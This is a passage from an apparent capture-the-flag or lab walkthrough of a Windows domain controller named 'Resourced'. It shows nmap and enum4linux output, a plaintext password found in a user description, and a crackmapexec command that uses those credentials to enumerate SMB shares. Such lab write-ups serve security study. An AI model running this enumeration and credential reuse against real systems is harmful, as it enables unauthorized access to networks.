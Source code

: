 ```python
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-07-12T12:11:42
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 41.42 seconds
```

Here we found the domain in use `resourced.local`

Using enum4linux found the users accounts. Funny how last description shows a password
```python
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!
```

`V.Ventz:HotelCalifornia194!`

Now trying to enumerate these credentials for any valid SMB shares since, smb port is also open.

```python
┌──(kali㉿kali)-[~/…/PGPractice/Intermediate/Windows/Resourced]
└─$ crackmapexec smb 192.168.205.175 -u V.Ventz -p HotelCalifornia194! --shares
SMB         192.168.205.175 445    RESOURCEDC       [*] Windows 10.0 Build 17763 x64 (name:RESOURCEDC) (domain:resourced.local) (signing:True) (SMBv1:False)
SMB         192.168.205.175 445    RESOURCEDC       [+] resourced.local\V.Ventz:HotelCalifornia194! 
SMB         192.168.205.175 445    RESOURCEDC       [+] Enumerated shares
SMB         192.168.205.175 445    RESOURCEDC       Share           Permissions     Remark
SMB         192.168.205.175 445    RESOURCEDC       -----           -----------     ------
SMB         192.168.205.175 445    RESOURCEDC       ADMIN$                          Remote Admin
SMB         192.168.205.175 445    RESOURCEDC       C$                              Default share
SMB         192.168.205.175 445    RESOURCEDC       IPC$            READ            Remote IPC
SMB         192.168.205.175 445    RESOURCEDC       NETLOGON        READ            Logon server share 
SMB         192.168.205.175 445    RESOURCEDC       Password Audit  READ            
SMB         192.168.205.175 445    RESOURCEDC       SYSVOL          READ            Logon server share 
```
